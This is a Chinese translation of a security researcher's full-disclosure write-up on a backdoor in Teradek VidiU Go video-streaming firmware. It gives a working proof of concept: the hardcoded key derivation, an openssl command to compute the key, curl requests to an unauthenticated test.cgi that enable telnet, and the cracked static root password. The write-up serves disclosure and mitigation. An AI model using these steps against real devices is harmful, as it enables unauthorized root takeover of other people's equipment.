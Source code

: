 # 充分披露:0 天 RCE 后门在 Teradek IP 视频设备固件

> 原文：<https://infosecwriteups.com/full-disclosure-0-day-rce-backdoor-in-teradek-ip-video-device-firmwares-85a16f346e15?source=collection_archive---------0----------------------->

## 这是一个 0 天后门程序的报告，允许远程根外壳访问 Teradek IP 视频设备。去年向制造商报告了这个问题，从那以后他们发布了新的固件版本，但是还没有修复。这就是为什么在这里这是完全的揭露。概念证明如下。

# 关于设备

[Teradek](https://teradek.com/) IP 视频设备是实时流设备，能够将视频输入(如 SDI、HDMI 等)编码为支持以太网传输的各种流格式。Teradek 生产的 IP 视频设备各不相同，但固件似乎非常相似(尤其是在后门功能方面)。我们已经分析了一个 [Teradek VidiU Go](https://teradek.com/collections/vidiu-go-family) 模型。

![](img/02080cb8cbf296cd18d28f5760b7bfd4.png)

Teradek VidiU Go IP 视频流设备

默认情况下，该设备有一个以太网接口和一个可通过 http:// <device_ip>访问的 Web 管理接口。Web 管理界面受用户定义的密码保护。</device_ip>

![](img/557b7dcf0e9f3dbfbe06cc837d502024.png)

Teradek VidiU Go 上用户自定义密码的登录提示

# 反转固件

[可从制造商网站下载](https://teradek.com/pages/downloads)固件映像。这些图像是未加密、未受保护的 Squashfs 文件，可以使用 [squashfs-tools](https://github.com/plougher/squashfs-tools) 轻松解压。

VidiU Go 设备的[固件](https://teradek.com/pages/downloads#vidiu-go)构建在 ARM64 Linux 内核上。我们已经分析了 3.1.12 版本(2020 年)，但是最新的 3.1.13 在这个报告的方面是完全一样的。

内置 lighttpd 服务器的 Webroot 是/home/www。文件夹/home/www/cgi-bin 包含。cgi 二进制文件，还有重要的依赖项(如。所以库)放在/usr/lib 文件夹中。

有很多有趣的函数需要分析，并且可能会发现更多的漏洞，但是让我们把重点放在/home/www/cgi-bin/test.cgi 中的后门访问函数上。

![](img/454e20df786e6880048156feb82b3136.png)

Ghidra 的反向测试. cgi

在牛逼的 [Ghidra](https://ghidra-sre.org/) 工具的帮助下，对 test.cgi 的 main()函数进行一个简短的基本逆向工程过程后，很容易看出

*   `http://<ip_of_the_device>/cgi-bin/test.cgi`无需认证即可访问
*   用 GET 参数`command=remote-access test.cgi`调用`/usr/share/system/remote-access.sh`用参数 start/stop 依赖于另一个 GET 参数 enable=0/1
*   脚本`/usr/share/system/remote-access.sh`启动/停止 telnetd，允许任何人通过网络访问设备上的 23/tcp 端口。
*   为了使用`command=remote-access`，应提供一个与`td_license_create(“tdtest”, 0, 0)`相比较的合适的关键参数。

# 反转关键计算

td_license_create()函数在 libtd.so 库中实现。

![](img/73844cddb99ca744efd20c4dac38bb81.png)

逆转加密密钥生成

颠倒加密函数显示密钥计算如下:

```
td_license_create(“tdtest”, 0, 0) = SHA1(SHA512(“0x5f3759df<MAC_ADDRESS_OF_DEVICE>tdtest”))
```

这意味着密钥计算所需的一切都被硬编码在通用固件中，只有 MAC 地址部分与设备相关。因为 MAC 地址对于同一个局域网的人来说很容易知道，所以可以计算出打开 telnet 接口的密钥。

# 启用 Telnet 接口

因此，可以使用 OpenSSL 的以下 Linux 命令来计算所需的密钥(以 MAC 地址 DE:AD:BE:EF:00:00 为例):

```
echo -n 0x5f3759dfDE:AD:BE:EF:00:00tdtest | openssl dgst -sha512 -binary — | openssl dgst -sha1 — | cut -d’ ‘ -f2
```

结果是:`2f1a4cf8d815c99f70268c0873c9dffb13015052`。

现在，可以使用以下 GET 请求启用 telnet 接口(假设设备 IP 是 192.168.0.10):

```
curl 'http://192.168.0.10/cgi-bin/test.cgi?key=2f1a4cf8d815c99f70268c0873c9dffb13015052&command=remote-access&enable=1'
```

HTTP 响应为 500(如果密钥错误，则为 404)，但是 telnet 接口被启用。

要禁用，只需使用`enable=0`:

```
curl 'http://192.168.0.10/cgi-bin/test.cgi?key=2f1a4cf8d815c99f70268c0873c9dffb13015052&command=remote-access&enable=0'
```

# 根凭据

现在 Telnet 已启用，连接会给出一个登录提示。对于凭证，在固件映像中查找`/etc/shadow`:

```
root:HjMedVB3oPf0o:11851:0:99999:7:::
```

不错，这是一个传统的弱 Unix crypt() DES hash，在很短的时间内(大约 3 天)100%可破解。此外，破解后，密码被证明是非常脆弱的，但这并不重要，我们无论如何都会破解它。

root 访问的破解凭据:

```
root:upsetdac
```

游戏结束。具有(本地)网络访问权限的任何人都可以枚举 MAC 地址，可以计算启用 telnet 所需的密钥(使用硬编码的值)，可以启用 telnet 接口(无需提供任何额外的凭据，无论用户定义的密码是什么)，并且可以以 root 用户身份远程登录(使用硬编码的静态 root 用户密码)并拥有设备。

# 概念证明摘要

1.  枚举 MAC 地址(`DE:AD:BE:EF:00:00`)
2.  计算关键:`echo -n 0x5f3759dfDE:AD:BE:EF:00:00tdtest | openssl dgst -sha512 -binary — | openssl dgst -sha1 — | cut -d’ ‘ -f2`(结果是`2f1a4cf8d815c99f70268c0873c9dffb13015052`)
3.  启用远程登录:`curl ‘http://192.168.0.10/cgi-bin/test.cgi?key=2f1a4cf8d815c99f70268c0873c9dffb13015052&command=remote-access&enable=1'`
4.  使用用户`root`和密码`upsetdac`登录`telnet 192.168.0.10`。

![](img/ab6bf003f36bd2ac08a2e1dfd91377b7.png)

用于在 Teradek VidiU Go 上启用 telnet + root 登录的 PoC

![](img/ac330da94c25dd62980f2d3cf40af185.png)

用于禁用 Teradek VidiU Go 上的 telnet 接口的 PoC

# 受影响的固件

*   Teradek VidiU Go 3.1.12(发布于 2020 年 6 月 8 日)
*   Teradek VidiU Go 3.1.13(发布于 2021 年 5 月 10 日，撰写本文时最新发布)
*   可能还有用于其他设备的其他 Teradek 固件(在其他固件中看到了相同的代码和相同的硬编码哈希，但是需要测试)。

# 减轻

没有修复，制造商应该知道这个后门，但显然不感兴趣，不打算打补丁。所以解决办法只有缓解。

因为没有办法禁用后门程序和/或更改硬编码的密钥/密码，唯一的缓解措施是向 web 界面添加另一层(网络/反向代理)保护层(除了用户定义的密码之外):只限制可信网络/用户对 web 界面(或设备)的访问。

例如，将其置于 NAT/防火墙之后，并使用一些安全服务(如 SSH 隧道或反向代理，仅对受信任的用户进行身份验证)通过凭证来访问设备。

# 时间表

12–01–2020:联系 Teradek，开始负责任的披露过程
12–11–2020:再次联系 Teradek，因为没有回复
12–14–2020:tera dek 询问细节
12–15–2020:分享一些细节
12–15–2020:tera dek 询问更多细节
12–15–2020:分享一些更多细节
020

# 更新

在发布这份完整的披露报告后的 24 小时内，Teradek 回复了(在 Twitter 上，在这里，在线程:[https://twitter.com/an0n_r0/status/1433591276369219585](https://twitter.com/an0n_r0/status/1433591276369219585))并承诺在 2 周内修复。太棒了，谢谢！:)